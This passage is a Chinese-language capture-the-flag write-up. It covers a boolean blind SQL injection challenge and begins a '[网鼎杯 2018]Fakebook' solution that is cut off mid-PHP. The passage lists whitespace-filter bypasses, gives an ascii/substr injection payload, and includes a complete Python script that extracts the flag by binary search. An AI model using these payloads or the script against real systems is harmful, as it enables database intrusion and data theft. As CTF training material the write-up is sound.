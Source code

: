 `bool盲注`

`payload`

根据1和2返回结果的不同，可能是bool盲注，`()`没有过滤，可以使用大部分函数，当时是卡在了空格的绕过
空格的绕过有这些方法我测试是可以的
`%09` `%0a` `%0b` `%0c` `%0d` `/**/` `/*!*/`或者直接tab
`%20` 好像没法绕，`%00`截断好像也影响sql语句的执行
或者用括号也可以。任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。
本题中可以`if(ascii(substr((select(flag)from(flag)),1,1))=ascii('f'),1,2)`

```
id=0^(ascii(substr((select(flag)from(flag)),1,1))>101)
```

`exp.py`

```python
import requests

url = 'http://5cc23316-a978-42e6-ac81-c850336c7bfc.node4.buuoj.cn:81/index.php'
result = ''

for x in range(1, 50):
    high = 127
    low = 32
    mid = (low + high) // 2
    while high > low:
        payload = "if(ascii(substr((select(flag)from(flag)),%d,1))>%d,1,2)" % (x, mid)
        data = {
            "id":payload
        }
        response = requests.post(url, data = data)
        response.encoding = response.apparent_encoding
        if 'Hello' in response.text:  # 正常回显特征
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2

    result += chr(int(mid))
    print(result)
```

[参考1](https://www.cnblogs.com/20175211lyz/p/11435298.html)

[参考2](https://www.cnblogs.com/zzjdbk/p/13650826.html)

## [网鼎杯 2018]Fakebook

`robots.txt`里有`/user.php.bak`

下载后内容为

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
```